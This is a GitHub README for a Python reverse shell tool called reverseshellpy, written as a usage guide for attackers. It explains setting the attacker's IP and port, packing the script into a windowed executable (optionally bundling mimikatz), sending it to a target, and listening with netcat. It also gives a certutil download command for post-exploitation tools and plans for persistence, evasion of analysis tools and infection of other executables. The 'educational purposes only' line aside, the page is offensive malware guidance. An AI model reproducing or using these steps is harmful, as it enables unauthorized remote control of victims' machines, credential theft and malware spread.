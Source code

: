<h1 align="center">Reverse shell payload only using python</h1>

<p align="center">
<a href="#"><img alt="reverseshellpy forks" src="https://img.shields.io/github/forks/cdkw/reverseshellpy?style=for-the-badge"></a>
<a href="#"><img alt="reverseshellpy last commit (main)" src="https://img.shields.io/github/last-commit/cdkw/reverseshellpy/main?color=green&style=for-the-badge"></a>
<a href="#"><img alt="reverseshellpy Repo stars" src="https://img.shields.io/github/stars/cdkw/reverseshellpy?style=for-the-badge&color=yellow"></a>
<a href="#"><img alt="reverseshellpy License" src="https://img.shields.io/github/license/cdkw/reverseshellpy?color=orange&style=for-the-badge"></a>
<a href="https://github.com/cdkw/reverseshellpy/issues"><img alt="reverseshellpy issues" src="https://img.shields.io/github/issues/cdkw/reverseshellpy?color=purple&style=for-the-badge"></a>

<p align="center">Do not attack anyone without their consent. Made for educational purposes only.</p>
<p align="center"><img src="https://i.imgur.com/uKFy6zZ.png" alt="SCRIPT"></p>


# Usage:

Replace in the python file the ip and port of your netcat reverse shell server. (tutorial on that below)
```py
def main():
    server_ip = '127.0.0.1'  # Replace with the server's IP address
    server_port = 9001       # Replace with the same port number used on the server
```


Then using auto_py_to_exe or py_to_exe make it an executable. Note that this did not work on kali linux for me.
```
pip install auto-py-to-exe
python -m auto_py_to_exe
```

Select the `Script Location`, then choose `One file`, then choose `window based`. Add an icon if you want, or extra files like mimikatz.exe embedded into it (requires your own code). Then `Convert .py to .exe`. Open the folder you were in when u typed `python -m auto_py_to_exe` and go into `output`, in this folder you will find your exe file.

Now, just send it to your other machine. 
`Note that this is not obfuscated or made to be used with any tunnel to hide the server's ip.`

# Netcat Server

Open a terminal in a machine that has installed netcat (ncat, nc), for example u can get it while installing nmap for windows. 
In the terminal, type `nc -lvp <PORT>`, replacing `<PORT>` with the port you have chosen for your listener.

# Post-exploitation:

After gaining access to your target, you can use `certutil` (`certutil -urlcache -split -f https://www.example.com/example.zip C:\path\to\file`, it being located in the system32 folder) or the embedded `--wget` function of the rs.py to download post-exploitation tools like priviledge exploitation with `mimikatz.exe`.

# Future plans:
- Once ran, automatically add to boot menu
- Every 1 minute try to connect to server machine, if not connected
- If process explorer, wireshark or other are detected, it enters in a hibernation stage for 1 hour, then it tries the connecting again
- If ran with administrator perms, it will infect other .exe files
